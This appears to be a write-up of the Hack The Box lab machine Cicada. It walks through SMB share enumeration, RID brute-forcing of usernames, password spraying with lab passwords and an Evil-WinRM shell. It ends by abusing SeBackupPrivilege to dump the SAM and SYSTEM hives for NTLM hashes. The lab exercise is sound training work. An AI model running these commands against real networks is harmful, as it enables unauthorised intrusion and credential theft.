


# Simple Enumeration and Exploiting AD in Cicada on HTB

----

## Box Info:

**Link**

<https://app.hackthebox.com/machines/Cicada>

**About**

"Cicada is an easy-difficult Windows machine that focuses on beginner Active Directory enumeration and exploitation. In this machine, players will enumerate the domain, identify users, navigate shares, uncover plaintext passwords stored in files, execute a password spray, and use the `SeBackupPrivilege` to achieve full system compromise."

----
### Recon

`nmap -sV -sC <ip> -oX target.xml`

`xsltproc target.xml -o target.html`

lets add the results to hosts file: 

The machine has port `445` open which means we can begin poking around to see if we can access any `smb` shares.

### SMB Enum with NetExec:

`NetExec (nxc)` can be used to help us enumerate the machine. Let's start by listing out any SMB shares that we can access as a non-authenticated user.

`nxc smb <ip> -u '.' -p '' --shares`

These shares can also be seen using `smbclient`:

`smbclient -L \\\\10.10.11.35\\.`

Based on the `netexec` result, we can see that we have access to the `HR` share, so let's connect to that.

We can see that we have access to a file called "Notice from HR.txt," so let's get that file and see what it contains.

This file contains a default password, we can now begin to enumerate users to later perform a password spray to check if any of the users are still using the provided default password.

We can brute force the relative IDs using netexec.

`nxc smb 10.10.11.35 -u '.' -p '' --rid-brute`

---

A manual example of this style of attack can be done by searching the `lookupsnames` and `lookupsids` results that can be accessed using `rpc`.

`rpcclient -U 'CICADA/' 10.10.11.35`

Now the users can be enumerated starting with the default administrator role.

Next, the `sid` for the administrator user can be incremented using `lookupsids` to enumerate other users.

This will reveal the usernames.

> IPPSEC has a good breakdown of this in his walkthrough of this challenge here <https://www.youtube.com/watch?v=21Z_byocGhI>

---

Another tool we could also use is `impacket-lookupsids` to find the same list of users.

`impacket-lookupsid 'cicada.htb/guest'@10.10.11.35 -no-pass`

Let's continue with the users we found using netexec.

We can pipe the entries listed as users into a txt file...

`nxc smb 10.10.11.35 -u '.' -p '' --rid-brute | grep SidTypeUser > users.txt`

...and begin cleaning up the output.

> This can be done in any IDE or with `sed`.

We can now retrieve the password we found before...

and use it for password spraying using `netexec`.

`nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`

We can see that the user `micheal.wrightson` is still using the default password.

Let's see what shares we can access as this user.

`nxc smb 10.10.11.35 -u 'micheal.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares`

This returns no valuable results, so let's try enumerating the other domain users as `micheal` to see if we can glean any information.

`nxc smb 10.10.11.35 -u 'micheal.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users`

> If you tried to do this as a guest user, it would not work as you have no access.

With the results, we can see that the user `david.orelious` has saved his password in his AD description.

This is obviously a terrible oversight, but it will allow us another vector of privilege escalation.

Let's see what shares this user has access to...

`nxc smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares`

We now have access to the `DEV` share which we previously could not access.

Lets connect to that share.

`smbclient //10.10.11.35/DEV -U david.orelious`

We can see that there is a PowerShell script in this directory. Let's grab it.

It appears that in this script, we have yet another user's password.

The user `emily.oscars`'s password is stored in this script. Let's see what they have access to.

We can see that they have full access to the `c` drive.

Lets connect to it and poke around.

We can probably find the user flag somewhere in the `Users` directory.

> It was located in the users Desktop folder as you will see later on.

### Privilege Escalation and Using Evil-WinRM:

After I poked around for a little, I decided to check if we could use something like `winrm`.

We can use netexec to check if this is possible.

After confirming with netexec we can continue using `evil-winrm` which should give us a shell.

`evil-winrm -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -i 10.10.11.35`

The user flag can be found in the user's desktop folder.

We can also check what privillages we have as this user.

`whoami \all`

We can see that this user has privileges for backups and is a member of the backups group.

This means we should be able to get a copy of the system files needed to retrieve the admin keys from the `SAM` hive.

There are a few ways we can do this, the first and "easiest" of which is using `reg save`.

> A good resource article about these methods can be found here: 
 <https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/>

First, we will read and copy the `SAM` and `SYSTEM` files into a temp folder.

`mkdir temp`

`reg save hklm\sam temp\sam`

`reg save hklm\system temp\system`

Then we can download the files:

`cd temp`

`download sam`

`download system`

We can then use `impacket-secretsdump` to retrieve the `NTLM` hashes.

We can then use this to access the admin account.

First, let's confirm it works with netexec:

Then we can use evil-winrm to get a shell.

The `root.txt` file can be found in the desktop folder.

Now we have rooted the machine.

# Conclusion:

The Cicada machine on HTB provided an excellent opportunity to practice Active Directory enumeration and exploitation techniques. Utilizing tools like `NetExec`, `rpcclient`, and `impacket`, we were able to enumerate users, perform password spraying, and escalate privileges using `SeBackupPrivilege`. This challenge highlights the importance of securing sensitive information, such as passwords, and properly configuring user privileges in an Active Directory environment ie: not leaving a note in an AD description. 